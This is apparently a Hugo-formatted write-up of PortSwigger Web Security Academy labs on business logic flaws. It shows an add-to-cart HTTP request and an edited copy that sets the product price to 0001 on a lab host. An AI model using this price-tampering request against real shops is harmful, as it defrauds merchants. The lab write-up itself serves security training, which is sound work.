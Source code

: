 +++
title = 'Business Logic'
date = 2024-08-19T11:37:44-03:00
draft = false
weight = 3
+++

Business logic vulnerabilities are those that arise from the flawed assumption of the user’s behavior, failing to include the appropriate security mechanisms in the application’s logic and allowing attackers to take advantage of it.

There's yet one lab from this topic that I didn't complete: [Authentication bypass via encryption oracle](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-encryption-oracle).

I intend on doing this lab soon and publishing the solution here.

## Labs

### Excessive trust in client-side controls

The following shopping application checks for the product’s value based on information included in the client side of the application, allowing attackers to craft and edit requests before they are sent do the server, and consequently purchasing products with arbitrary prices.

Original add to cart request:

```http
POST /cart HTTP/2
Host: 0aee00ab0420f09280afcb6f00450037.web-security-academy.net
Cookie: session=6ftRjffxKFYAX6oK6N1CJYwKcqNggNI4
Content-Length: 49
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0aee00ab0420f09280afcb6f00450037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

productId=1&redir=PRODUCT&quantity=1&price=133700
```


Edited request with product’s price set to $00.01

```http
POST /cart HTTP/2
Host: 0aee00ab0420f09280afcb6f00450037.web-security-academy.net
Cookie: session=6ftRjffxKFYAX6oK6N1CJYwKcqNggNI4
Content-Length: 49
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0aee00ab0420f09280afcb6f00450037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

productId=1&redir=PRODUCT&quantity=1&price=0001
```
